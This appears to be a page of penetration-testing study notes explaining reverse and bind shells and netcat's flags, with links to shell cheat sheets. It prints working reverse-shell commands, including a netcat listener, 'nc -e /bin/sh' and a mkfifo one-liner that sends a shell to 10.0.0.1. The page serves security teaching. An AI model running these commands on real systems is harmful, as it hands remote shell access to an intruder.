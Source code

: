 # Shells

### Shells[​](broken-reference) <a href="#shells" id="shells"></a>

**Different sources**[**​**](broken-reference)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Reverse Shell Cheat Sheet Pentestmonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Kali Linux also comes pre-installed with a variety of webshells located at `/usr/share/webshells`. The [SecLists repo](https://github.com/danielmiessler/SecLists), though primarily used for wordlists, also contains some very useful code for obtaining shells.

**What is a shell?**[**​**](broken-reference)

In the simplest possible terms, shells are what we use when interfacing with a Command Line environment (CLI). In simple terms, we can force the remote server to either send us command line access to the server (a **reverse** shell), or to open up a port on the server which we can connect to in order to execute further commands (a **bind** shell).

**Types of shell**[**​**](broken-reference)

* **Reverse shell:** the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection.
* **Bind shells:** the code executed on the target is used to start a listener attached to a shell directly on the target. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

### Netcat[​](broken-reference) <a href="#netcat" id="netcat"></a>

It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system.

#### Reverse Shells[​](broken-reference) <a href="#reverse-shells" id="reverse-shells"></a>

* `-l` is used to tell netcat that this will be a listener
* `-v` is used to request a verbose output
* `-n` tells netcat not to resolve host names or use DNS.
* `-p` indicates that the port specification will follows

On the attacker's machine: \``nc` `` -lvp 1234` ``

On the victim's machine: \``nc` `-e /bin/sh` `` 10.0.0.1` ``

On the victim's machine if Netcat does not support the `-e` parameter:&#x20;

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
